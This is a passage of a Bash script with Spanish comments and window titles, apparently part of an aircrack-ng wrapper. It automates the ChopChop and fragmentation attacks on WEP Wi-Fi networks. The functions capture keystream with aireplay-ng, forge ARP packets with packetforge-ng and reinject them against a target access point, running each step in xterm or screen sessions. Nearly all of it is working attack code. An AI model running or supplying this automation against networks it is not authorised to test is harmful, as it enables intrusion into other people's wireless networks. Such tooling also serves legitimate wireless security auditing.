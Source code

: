 		$SCREEN -dm -t "ChopChop_generando_paquete" $PACKETFORGE -0 -a $MAC_AP -h $MAC_INTERFAZ -k 255.255.255.255 -l 255.255.255.255.255 -y replay_dec-*.xor -w ./$CAPTURA/ataque4.cap
		esperar_cierre "$PACKETFORGE -0"
	fi
fi
comprobar_airodump #CONTROLA SI SE HA CERRADO LA CAPTURA DE TRÁFICO
if [ "$AIRODUMP_FUNCIONANDO" != "" ]
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $BIEN $FUENTE $ATAQUE4_VENTANA -title "ATAQUE -4 [ChopChop] - Reinyectando..." -e $AIREPLAY -2 -F -r ./$CAPTURA/ataque4.cap $INTERFAZ_MONITOR
	else
		$SCREEN -dm -t "ChopChop_reinyectando" $AIREPLAY -2 -F -r ./$CAPTURA/ataque4.cap $INTERFAZ_MONITOR
		esperar_cierre "$AIREPLAY -2 -F -r ./$CAPTURA/ataque4"
	fi
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #SI FALLA EL ATAQUE, ESPERA A QUE SE CIERRE AIRODUMP PARA CERRARSE
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $HOLD $MAL $FUENTE $ATAQUE4_VENTANA -title "ATAQUE -4 [ChopChop] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}

#INYECCION DE TRÁFICO - ATAQUE 5 [Fragmentación]
ataque_5()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE5_VENTANA -title "ATAQUE -5 [Fragmentación] - Esperando paquete ARP..." -e $AIREPLAY -5 -F -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "Fragmentación_esperando" $AIREPLAY -5 -F -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -5"
fi
comprobar_airodump #controla si se ha cerrado la captura de tráfico
if [ "$AIRODUMP_FUNCIONANDO" != "" ]
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $INFORMA $FUENTE $ATAQUE5_VENTANA -title "ATAQUE -5 [Fragmentación] - Generando paquete de reinyección..." -e $PACKETFORGE -0 -a $MAC_AP -h $MAC_INTERFAZ -k 255.255.255.255 -l 255.255.255.255.255 -y fragment-*.xor -w ./$CAPTURA/ataque5.cap
	else
		$SCREEN -dm -t "Fragmentación_generando_paquete" $PACKETFORGE -0 -a $MAC_AP -h $MAC_INTERFAZ -k 255.255.255.255 -l 255.255.255.255.255 -y fragment-*.xor -w ./$CAPTURA/ataque5.cap
		esperar_cierre "$PACKETFORGE -0"
	fi
fi
comprobar_airodump #controla si se ha cerrado la captura de tráfico
if [ "$AIRODUMP_FUNCIONANDO" != "" ]
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $BIEN $FUENTE $ATAQUE5_VENTANA -title "ATAQUE -5 [Fragmentación] - Reinyectando..." -e $AIREPLAY -2 -F -r ./$CAPTURA/ataque5.cap $INTERFAZ_MONITOR
	else